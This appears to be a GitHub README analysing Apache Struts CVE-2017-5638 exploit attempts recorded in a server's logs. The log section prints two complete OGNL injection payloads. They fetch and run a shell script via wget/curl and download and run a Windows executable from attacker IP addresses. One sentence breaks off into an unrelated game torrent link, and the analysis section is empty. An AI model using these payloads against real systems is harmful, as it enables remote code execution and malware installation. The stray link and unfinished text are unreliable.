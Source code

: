 # Struts Exploit

## Summary
While looking through the logs of one of our servers, we encountered these entries, spaced one second apart.

I downloaded the binaries from the urls listed in the exploit attempts. I downloaded two files, one from each of the drive-by exploit attempts. The first URL was targeted towards Linux Based systems, and the second was targeting Windows based systems. They are both attempting to exploit a recently discovered vulnerability in the Apache Struts MVC framework. 

Brief Description of Apache Struts Vulnerability -- CVE-2017-5638:
Written in Java, leverages a vulnerability in the Jakarta Multipart parser. When an invalid value is placed in the Content-Type header, an exception is thrown. The exception is used to display the error to the user. Attackers exploit this vulnerability to escape the data scope into the execution scope through the Content-Type Header. 67% of the attacks come from China, 17% from the US, 6% from Taiwan, and 5% from Hong Kong.
https://www.impervia.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/


The IP we recorded was from China, and has a risk score of 5. As of today: March 26, 2017: It has an AS number of 4134
https://www.dshield.org/ipinfo.html?ip=220.191.231.222
The attempts were executed at 06:19:02 UTC, from the locale of the origin IP address, was 14:00 CST.

This ip address sent two packets, which would download from two different ip addresses, embedded in the modified Content-Type header field. The first was targeted towards systems built on *nix based servers, and the second was targeted towards systems built on Windows based servers

I downloaded the `a` script from the ip address 65.254.63.20, and received a shell script. The first thing it does is to add the present working directory for instance to the path.

The second contains a binary named `UnInstall.exe`. The 
https://thepiratebay.org/torrent/16135858/The_Elder_Scrolls_V_Skyrim_Special_Edition-CODEX

## Log Entries
```
---BEGIN---
    Wed Mar 22 2017 06:19:02 GMT+0000 (UTC)
    New Connection 220.191.231.222 -> ###.###.###.###
    User Agent: Mozilla/5.0
    Requested Resource: /
    Request Method: GET
    Accept: undefined
    Content Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget -qO - http://65.254.63.20/a|sh ; rm -rf a ; curl -O http://65.254.63.20/a ; sh a ').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
    Content Length: undefined
---BEGIN---
    Wed Mar 22 2017 06:19:02 GMT+0000 (UTC)
    New Connection 220.191.231.222 -> ###.###.###.###
    User Agent: Mozilla/5.0
    Requested Resource: /
    Request Method: GET
    Accept: undefined
    Content Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='BITSAdmin.exe /Transfer JOB http://82.165.129.119/UnInstall.exe %TEMP%/UnInstall.exe & %TEMP%/UnInstall.exe').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
    Content Length: undefined
```

## Analysis
